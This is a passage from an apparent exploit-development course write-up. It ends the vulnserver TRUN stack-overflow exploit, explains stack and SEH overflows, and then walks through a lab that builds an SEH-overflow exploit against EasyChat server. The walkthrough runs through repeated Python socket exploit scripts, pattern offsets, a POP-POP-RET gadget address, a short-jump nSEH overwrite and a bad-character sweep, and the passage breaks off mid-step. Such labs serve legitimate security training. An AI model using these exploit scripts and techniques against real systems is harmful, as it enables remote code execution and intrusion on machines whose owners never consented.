padding = 'F' * (3000 - 2006 - 4 - 16 - len(exploit))
attack = prefix + eip + nopsled + exploit + padding

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server_ip, server_port))
print s.recv(1024)
print "Sending attack to TRUN . with length ", len(attack)
s.send(('TRUN .' + attack + '\r\n'))
print s.recv(1024)
s.send('EXIT\r\n')
print s.recv(1024)
s.close()
```

To identify a suitable `jmp esp` instruction for overwriting the EIP register, I used the Mona script in Immunity Debugger. This script helps locate such instructions in the loaded modules of the target application, excluding any pointers containing bad characters.

`!mona jmp -r esp -cpb "\x00"`:
```
[+] This mona.py action took 00:00:00.063000
    Command used:
    !mona jmp -r esp -cpb "\x00"

    ---------- Mona command started on 2022-07-12 17:08:13 (v2.0, rev 616) ----------
    [+] Processing arguments and criteria
        - Pointer access level : X
        - Bad char filter will be applied to pointers : '\x00'
    [+] Generating module info table, hang on...
        - Processing modules
        - Done. Let's rock 'n roll.
        - Querying 2 modules
        - Querying module essfunc.dll
        - Querying module vulnserver.exe
        - Search complete, processing results
    [+] Preparing output file jmp.txt
        - (Re)setting logfile jmp.txt
    [+] Writing results to jmp.txt
        - Number of pointers of type 'jmp esp' : 9
    [+] Results:
        0x625011af : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.0- 
[C:\Users\IEUser\Desktop\vulnserver\essfunc.dll] ←
        0x625011bb : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.0- 
[C:\Users\IEUser\Desktop\vulnserver\essfunc.dll]
        0x625011d7 : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.0- 
[C:\Users\IEUser\Desktop\vulnserver\essfunc.dll]
        0x625011ef : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.0- 
[C:\Users\IEUser\Desktop\vulnserver\essfunc.dll]
        0x6250120e : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.0- 
[C:\Users\IEUser\Desktop\vulnserver\essfunc.dll]
        0x625011aa : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.0- 
[C:\Users\IEUser\Desktop\vulnserver\essfunc.dll]
        0x625011af : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.0- 
[C:\Users\IEUser\Desktop\vulnserver\essfunc.dll]
        0x625011bb : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.0- 
[C:\Users\IEUser\Desktop\vulnserver\essfunc.dll]
        0x62501203 : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.0- 
[C:\Users\IEUser\Desktop\vulnserver\essfunc.dll]

    Found a total of 9 pointers
```

Run the script to execute the exploit and observe the result, such as the execution of calc.exe on the target machine: `python /root/Desktop/shellcode.py`.

This process illustrates how to fuzz a Windows application, analyze crashes, and exploit vulnerabilities.

---
---

## Stack-Based Overflow

### Windows Stack Overflow - Theory

#### Windows Stack Overflow

A Windows stack overflow, also known as a stack-based buffer overflow, occurs when a program writes more data to a stack-based buffer than it can hold, causing it to overwrite adjacent memory addresses on the stack.

This vulnerability can lead to a variety of security issues, including crashes, arbitrary code execution, and privilege escalation.

##### How It Works

1. Stack Memory Layout
In Windows (as in many other operating systems), the stack is a region of memory used for storing local variables, function parameters, return addresses, and other function call-related information. The stack grows downward in memory, with the highest memory addresses at the bottom and the lowest memory addresses at the top.

2. Buffer Overflow
A buffer overflow occurs when a program writes more data to a buffer (an array of memory) than it can hold. In the case of a stack-based buffer overflow, this buffer is typically located on the stack.
The buffer overflow can occur due to insufficient bounds checking or improper handling of user input.

3. Overwriting Return Address
When a function is called in a program, the return address, which points to the instruction to be executed after the function completes, is pushed onto the stack.
In a stack overflow attack, the attacker exploits the buffer overflow vulnerability to overwrite the return address with a malicious address pointing to code they control.

4. Control Hijacking
By overwriting the return address with a malicious address, the attacker can redirect the program's control flow to execute arbitrary code of their choice.
This code is often referred to as the "shellcode" and is typically injected into the program's memory by the attacker. Once the control flow is redirected to the shellcode, the attacker can execute commands, escalate privileges, or perform other malicious actions.

5. Exploitation
With control of the program's execution flow and the ability to execute arbitrary code, the attacker can exploit the vulnerability to achieve their objectives, such as gaining unauthorized access to the system, stealing sensitive information, or launching further attacks.

---
---

## Structured Exception Handling (SEH) Overflow

### Structured Exception Handling (SEH) - Theory

#### Structured Exception Handling (SEH)

Windows Structured Exception Handling (SEH) is a mechanism employed by the Windows operating system to manage exceptions or errors that occur during program execution.
It provides a structured way to handle exceptions, such as access violations, divide-by-zero errors, and stack overflows.

##### How SEH Works

- Exception Handling Structure
SEH uses a linked list of exception handling records, known as SEH records, to manage exception handling.
Each SEH record contains information about a specific exception handler, including a pointer to the handler function.

- Registration
When an application wishes to handle exceptions using SEH, it registers one or more exception handlers by adding SEH records to the SEH chain. These records are typically added using the `__try` and `__except` keywords in C/C++ code.

- Exception Handling
When an exception occurs during program execution, the Windows kernel walks through the SEH chain, searching for an appropriate exception handler to handle the exception. If a matching handler is found, the associated handler function is executed, allowing the program to respond to the exception in a controlled manner.

#### Windows SEH Overflows

Windows SEH overflows, also known as SEH-based buffer overflows, occur when an attacker exploits a vulnerability in an application's exception handling mechanism to gain unauthorized access or execute arbitrary code.

 1. Vulnerability Identification
The attacker identifies a vulnerability in the application that allows them to overwrite an exception handler's SEH record. This vulnerability may be due to insufficient bounds checking or improper exception handling.

2. SEH Record Overwrite
The attacker exploits the vulnerability to overwrite the SEH record of an exception handler with a malicious address pointing to their shellcode or payload.

3. Exception Triggering
The attacker triggers an exception condition within the vulnerable application, such as by providing specially crafted input or triggering a specific code path.

4. Exception Handling
When the exception occurs, the Windows kernel walks through the SEH chain to locate the exception handler. Instead of finding a legitimate handler, it encounters the overwritten SEH record pointing to the attacker's payload.

5. Code Execution
The attacker's payload is executed, allowing them to gain control of the application's execution flow. From there, they can execute arbitrary code, escalate privileges, or achieve other malicious objectives.

### Windows SEH Overflow: (with SPIKE) - Lab

#### Lab Environment 

**Scenario**

You have been tasked by your red team manager, to refresh your Windows exploit development skills. Specifically, he provided you with a machine (172.16.5.120) that features a vulnerable to SEH overflow version of the EasyChat server. An exploit skeleton is also provided to you. Your task is to fully exploit the SEH-based overflow vulnerability of the EasyChat server.

Find below the exploit skeleton that causes the application to crash.
```python
import os, sys, socket
ip = "172.16.5.120"
port = 80
socket = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
socket.connect((ip , port))
buffer = "A" * 1000
request = "POST /registresult.htm HTTP/1.1\r\n\r\n"
request += "Host: 172.16.5.1"
request += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
request += "Accept-Language: en-US,en;q=0.5"
request += "Accept-Encoding: gzip, deflate"
request += "Referer: http://172.16.5.1/register.ghp"
request += "Connection: close"
request += "Content-Type: application/x-www-form-urlencoded"
request += "UserName=" + buffer +"&Password=test&Password1=test&Sex=1&Email=x@&Icon=x.gif&Resume=xxxx&cw=1&RoomID=4&RepUserName=admin&submit1=Register"
socket.send(request)
data = socket.recv(4096)
print data
socket.close()
```

**Goals**
- Fully exploit the vulnerable EasyChat server    
- Spawn calc.exe as a proof of concept

**What you will learn**
- Exploiting SEH-based stack overflows

**Recommended tools**
- Immunity Debugger
- Mona.py
- Python
- Notepad++

##### Tasks

1. Recognize the exploitable conditions.
2. Find offset to the SEH/EIP.
3. Move the execution flow past the SEH entry.
4. Discover any bad characters.
5. Finalize the exploit.

#### Lab Solution

1. **Recognize the exploitable conditions.**

`ipconfig`:
```
Windows IP Configuration

Ethernet adapter Local Area Connection 2:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::89c3:bae4:b71:3759%15
   IPv4 Address. . . . . . . . . . . : 172.16.5.120 ←
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.5.1

Tunnel adapter isatap.{53152A2F-39F7-458E-BD58-24D17099256A}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```

Let's try to figure out if we are really dealing with an SEH-based overflow and also, what offset exactly is needed to overflow the SEH.

First, start the Easy Chat Server.

Open Immunity Debugger and attach it to the Easy Chat process.

Go to `File` > `Attach` and select `EasyChat`.
Run the server within the debugger.

Then create a shellcode for exploitation.

`cd ./Desktop`, `notepad.exe ./shellcode.py`:
```python
import os, sys, socket

# Target IP and port
ip = "172.16.5.120"
port = 80

# Buffer to cause overflow
buffer = "A" * 1000

# Construct the HTTP request
request = "POST /registresult.htm HTTP/1.1\r\n\r\n"
request += "Host: 172.16.5.1"
request += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
request += "Accept-Language: en-US,en;q=0.5"
request += "Accept-Encoding: gzip, deflate"
request += "Referer: http://172.16.5.1/register.ghp"
request += "Connection: close"
request += "Content-Type: application/x-www-form-urlencoded"
request += "UserName=" + buffer +"&Password=test&Password1=test&Sex=1&Email=x@&Icon=x.gif&Resume=xxxx&cw=1&RoomID=4&RepUserName=admin&submit1=Register"

# Create a socket connection
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

# Send the request and receive the response
s.send(request)
data = s.recv(4096)
print data
s.close()
```

Run the script to execute the exploit and observe the result: `./shellcode.py`.

In Immunity Debugger, you will see an access violation error message indicating that the application attempted to execute `[41414141]`: `Access violation when executing [41414141 ]`.

It certainly looks like the EIP can be controlled via SEH overwrite.
Feel free to use Immunity's `View` > `SEH chain` functionality yourself to witness the SEH overwrite.

2. **Find offset to the SEH/EIP.**

To figure out the SEH structure offset needed, we can use mona within the Immunity Debugger, as follows.

`!mona pattern_create 1000`.
```
Note: don't copy this pattern from the log window, it might be truncated !
It's better to open pattern.txt and copy the pattern from the file ←
```

We can find the complete pattern inside the Immunity Debugger folder on a file called `pattern.txt`. The default Immunity Debugger location is: `C:\Program Files\Immunity Inc\Immunity Debugger`.

```
Pattern of 1000 bytes :
-----------------------

ASCII:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B ←
```

Once the pattern is created, copy it and replace the buffer in the Python script.

```python
import os, sys, socket

# Target IP and port
ip = "172.16.5.120"
port = 80

# Pattern to find the offset
buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B"

# Construct the HTTP request
request = "POST /registresult.htm HTTP/1.1\r\n\r\n"
request += "Host: 172.16.5.1"
request += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
request += "Accept-Language: en-US,en;q=0.5"
request += "Accept-Encoding: gzip, deflate"
request += "Referer: http://172.16.5.1/register.ghp"
request += "Connection: close"
request += "Content-Type: application/x-www-form-urlencoded"
request += "UserName=" + buffer +"&Password=test&Password1=test&Sex=1&Email=x@&Icon=x.gif&Resume=xxxx&cw=1&RoomID=4&RepUserName=admin&submit1=Register"

# Create a socket connection
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

# Send the request and receive the response
s.send(request)
data = s.recv(4096)
print data
s.close()
```

Then, restart the server and re-attach it to Immunity, and run the modified Python exploitation script.
We can check Immunity's `View` > `SEH chain` functionality to witness the SEH overwrite.

```
SEH chain of thread 00000BC0

Address          SE handler
02EC6B34         ntdll.7778E15D
02EC6C28         ntdll.7778E15D
02EC6CA4         EasyChat.00446A60
02EC6E30         34684133 ←
68413268         *** CORRUPT ENTRY *** ←
```

To find the offset, use mona.

`!mona pattern_offset 34684133`:
```
Pattern 3Ah4 (0x34684133) found in cyclic pattern at position 221 ←
```

We now know that we need to overwrite 221 bytes. This is until the current SEH. If you recall, there is also an nSEH record before the SEH, which is also 4-bytes long. We should thus remember that we start overwriting the exception handler structure at 217 bytes. Let's modify the buffer and launch the modified exploit against the target in order to confirm if our calculations were correct.

```python
import os, sys, socket

# Target IP and port
ip = "172.16.5.120"
port = 80

# Buffer to overflow the SEH
buffer = "A" * 217  # Padding to reach the SEH overwrite point
buffer += "BBBB" # Overwrite the nSEH (next SEH) pointer
buffer += "CCCC" # Overwrite the SEH (Structured Exception Handler) pointer
buffer += "DDDD" * 200  # Additional padding to ensure the buffer length

# Construct the HTTP request
request = "POST /registresult.htm HTTP/1.1\r\n\r\n"
request += "Host: 172.16.5.1"
request += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
request += "Accept-Language: en-US,en;q=0.5"
request += "Accept-Encoding: gzip, deflate"
request += "Referer: http://172.16.5.1/register.ghp"
request += "Connection: close"
request += "Content-Type: application/x-www-form-urlencoded"
request += "UserName=" + buffer +"&Password=test&Password1=test&Sex=1&Email=x@&Icon=x.gif&Resume=xxxx&cw=1&RoomID=4&RepUserName=admin&submit1=Register"

# Create a socket connection
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

# Send the request and receive the response
s.send(request)
data = s.recv(4096)
print data
s.close()
```

Before passing the exception to the program, let's go to `View` > `SEH chain`.

```
SEH chain of thread 00000AF8

Address          SE handler
02D16E30         43434343 ←
42424242         *** CORRUPT ENTRY ***
```

We can see that the SEH structure was properly overwritten. Also, we can scroll down the stack view to see it.

```

...

02D16E20  41414141    AAAA
02D16E24  41414141    AAAA
02D16E28  41414141    AAAA
02D16E2C  41414141    AAAA
02D16E30  42424242    BBBB    Pointer to next SEH record ←
02D16E34  43434343    CCCC    SE handler ←
02D16E38  44444444    DDDD
02D16E3C  44444444    DDDD
02D16E40  44444444    DDDD
02D16E44  44444444    DDDD

...

```

After passing the exception to the program, we successfully overwrite EIP with C's.

```
Registers (FPU)

EAX  00000000
ECX  43434343
EDX  777B72CD  ntdll.777B72CD
EBX  00000000
ESP  02D16758
EBP  02D16778
ESI  00000000
EDI  00000000
EIP  43434343 ←
```

3. **Move the execution flow past the SEH entry.**

The next thing that will be required during the SEH exploitation, is the POP-POP-RET gadget. We can quickly find it using mona: `!mona seh`.

Since the output is pretty large, you can also find it in the default Immunity Debugger directory as an `seh.txt` file.

```
0x0045ed83 : pop ebx # pop ebp # ret
0x00460948 : pop ebx # pop ebp # ret
0x10017f21 : pop esi # pop ecx # ret ←
0x10017fda : pop esi # pop ecx # ret
0x10018029 : pop esi # pop ecx # ret
0x10018066 : pop esi # pop ecx # ret
0x100181c8 : pop esi # pop ecx # ret
0x100186fa : pop esi # pop ecx # ret
0x10018abf : pop esi # pop ecx # ret
0x10018aff : pop esi # pop ecx # ret
0x00432b7d : pop edi # pop esi # ret
```

Let's choose any gadget that ends with a regular ret (ret X will corrupt the stack) and let's incorporate it into the exploit.
Moreover, since the gadget will cause the program to start executing whatever is in the nSEH, let's place breakpoints there so in case we successfully alter the execution flow, we will know about it.

```python
import os, sys, socket

# Target IP and port
ip = "172.16.5.120"
port = 80

# Buffer to overflow the SEH
buffer = "A" * 217  # Padding to reach the SEH overwrite point
buffer += "\xcc\xcc\xcc\xcc" # Four INT3 instructions for debugging
buffer += "\x21\x7f\x01\x10" # 0x10017F21 : pop esi # pop ecx # ret ←
buffer += "DDDD" * 200  # Additional padding to ensure the buffer length

# Construct the HTTP request
request = "POST /registresult.htm HTTP/1.1\r\n\r\n"
request += "Host: 172.16.5.1"
request += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
request += "Accept-Language: en-US,en;q=0.5"
request += "Accept-Encoding: gzip, deflate"
request += "Referer: http://172.16.5.1/register.ghp"
request += "Connection: close"
request += "Content-Type: application/x-www-form-urlencoded"
request += "UserName=" + buffer +"&Password=test&Password1=test&Sex=1&Email=x@&Icon=x.gif&Resume=xxxx&cw=1&RoomID=4&RepUserName=admin&submit1=Register"

# Create a socket connection
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

# Send the request and receive the response
s.send(request)
data = s.recv(4096)
print data
s.close()
```

Upon encountering an exception, do not immediately pass it to program. Let's first scroll down the stack and find the overwritten SEH structure.
Go to the SEH pointer (`SEH handler`) and right-click on it, then select `Follow in Disassembler` from the drop-down menu.
You can see the instructions that are placed at this address (exactly those that were members of the chosen gadget).

```
10017F21  5E        POP ESI ←
10017F22  59        POP ECX ←
10017F23  C3        RETN ←
```

Select the first POP instruction and right-click it. From the drop-down menu select `Breakpoint` > `Memory, on access`.

As the breakpoint is placed, we can now pass the exception (Shift + F9) to the program. The execution will stop exactly at this instruction. From this point onwards, we will use the Step Into (F7) instruction, that makes the debugger go just to next instruction.

After pressing F7, we will land at the second POP instruction. We can see that the stack value was popped to the respective register. Press F7 once again, so you land on the RET instruction.

As we already know, RET causes the program to execute whatever the stack pointer is now pointing to.
What is that? First, make sure you have your stack window aligned to ESP. Right-click on the ESP address and choose `Follow in Stack`.

Now, right click on the top address on the stack and choose `Follow in Dump`.

You can observe that those breakpoints that were put in the place of the nSEH, are now going to be executed.

```
Registers (FPU)
EAX 00000000
ECX 042F6840
EDX 777B72CD  ntdll.777B72CD
EBX 00000000
ESP 042F6760 ←
EBP 042F6778
ESI 777B72B9  ntdll.777B72B9
EDI 00000000

EIP 10017F23  SSLEAY32.10017F23
```

Press `Step Into` once again.

```
042F6E30  CC           INT3 ←
042F6E31  CC           INT3
042F6E32  CC           INT3
042F6E33  CC           INT3
042F6E34  217F 01      AND DWORD PTR DS:[EDI+1], EDI
042F6E37  104444 44    ADC BYTE PTR SS:[ESP+EAX*2+44], AL
042F6E3D  44           INC ESP
042F6E3E  44           INC ESP
042F6E3F  44           INC ESP
042F6E40  44           INC ESP
042F6E41  44           INC ESP
042F6E42  44           INC ESP
042F6E43  44           INC ESP

...

```

And we are executing the breakpoints!

Now, since we know that the nSEH can be executed, we should change it to something useful, that will help us omit the SEH pointer and start executing whatever lies past it.

We can use the standard trick of short jump-ing 6 bytes forward. The opcodes for it are: `EB 06`.
In order to pad the remaining 2 bytes, we can use NOPs. This translates to the following: `EB 06 90 90`.

Moreover, we add a shellcode placeholder containing one break point. If we will be able to reach the shellcode, the debugger will stop.

```python
import os, sys, socket

# Target IP and port
ip = "172.16.5.120"
port = 80

# Placeholder shellcode (interrupt for debugging)
# This interrupt instruction (\xcc) will cause a break in execution when run under a debugger.
# It is used here temporarily to test the buffer overflow and SEH overwrite.
shellcode = ("\xcc")

# Buffer to overflow the SEH
buffer = "A" * 217  # Padding to reach the SEH overwrite point
buffer += "\xeb\x06\x90\x90" # Short jump (JMP) instruction to bypass the SEH handler
buffer += "\x21\x7f\x01\x10" # Address of "POP ESI; POP ECX; RET" instruction in EasyChat
buffer += shellcode # The shellcode to be executed after the SEH bypass
buffer += "DDDD" * 200  # Additional padding to ensure the buffer length

# Construct the HTTP request
request = "POST /registresult.htm HTTP/1.1\r\n\r\n"
request += "Host: 172.16.5.1"
request += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
request += "Accept-Language: en-US,en;q=0.5"
request += "Accept-Encoding: gzip, deflate"
request += "Referer: http://172.16.5.1/register.ghp"
request += "Connection: close"
request += "Content-Type: application/x-www-form-urlencoded"
request += "UserName=" + buffer +"&Password=test&Password1=test&Sex=1&Email=x@&Icon=x.gif&Resume=xxxx&cw=1&RoomID=4&RepUserName=admin&submit1=Register"

# Create a socket connection
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

# Send the request and receive the response
s.send(request)
data = s.recv(4096)
print data
s.close()
```

Let's launch the exploit and pass the exception to the program. We are executing shellcode!

```
03D76E32   90             NOP
03D76E33   90             NOP
03D76E34   217F 01        AND DWORD PTR DS:[EDI+1], EDI
03D76E37   10CC           ADC AH, CL ← 
03D76E39   44             INC ESP
03D76E3A   44             INC ESP
03D76E3B   44             INC ESP
03D76E3C   44             INC ESP
03D76E3D   44             INC ESP
03D76E3E   44             INC ESP
03D76E3F   44             INC ESP
03D76E40   44             INC ESP
03D76E41   44             INC ESP
03D76E42   44             INC ESP
03D76E43   44             INC ESP
03D76E44   44             INC ESP
03D76E45   44             INC ESP
03D76E46   44             INC ESP
03D76E47   44             INC ESP
03D76E48   44             INC ESP
03D76E49   44             INC ESP
```

```
[15:10:22] INT3 command at 03D76E38 ←
```

4. **Discover any bad characters.**

Before we implement the final shellcode, let's check for the presence of bad characters. We will send a buffer of all ASCII's instead of shellcode.

```python
import os, sys, socket

# Target IP and port
ip = "172.16.5.120"
port = 80

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f" "\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e" "\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d" "\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c" "\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b" "\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a" "\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69" "\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78" "\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87" "\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96" "\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5" "\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4" "\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3" "\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2" "\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1" "\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

# Placeholder shellcode (interrupt for debugging)
# This interrupt instruction (\xcc) will cause a break in execution when run under a debugger.
# It is used here temporarily to test the buffer overflow and SEH overwrite.
shellcode = ("\xcc")

# Buffer to overflow the SEH
buffer = "A" * 217  # Padding to reach the SEH overwrite point
buffer += "\xeb\x06\x90\x90" # Short jump (JMP) instruction to bypass the SEH handler
buffer += "\x21\x7f\x01\x10" # Address of "POP ESI; POP ECX; RET" instruction in EasyChat
buffer += shellcode # The shellcode to be executed after the SEH bypass
buffer += badchars + "DDDD" * (200 - len(badchars)) # Additional padding to ensure the buffer length

# Construct the HTTP request
request = "POST /registresult.htm HTTP/1.1\r\n\r\n"
request += "Host: 172.16.5.1"
request += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
request += "Accept-Language: en-US,en;q=0.5"
request += "Accept-Encoding: gzip, deflate"
request += "Referer: http://172.16.5.1/register.ghp"
request += "Connection: close"
request += "Content-Type: application/x-www-form-urlencoded"
request += "UserName=" + buffer +"&Password=test&Password1=test&Sex=1&Email=x@&Icon=x.gif&Resume=xxxx&cw=1&RoomID=4&RepUserName=admin&submit1=Register"

# Create a socket connection
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

# Send the request and receive the response
s.send(request)
data = s.recv(4096)
print data
s.close()
```

After passing the exception to the program, we can inspect the stack for malformed bytes. There are two (`\x25` and `\x2b`) which were changed to some other bytes.

```
042E6E1C  41414141
042E6E20  41414141
042E6E24  41414141
042E6E28  41414141
042E6E2C  41414141
042E6E30  909060EB
042E6E34  10017F21
042E6E38  030201CC
042E6E3C  07060504
042E6E40  B0A00908
042E6E44  0F0E0D0C
042E6E48  13121110
042E6E4C  17161514
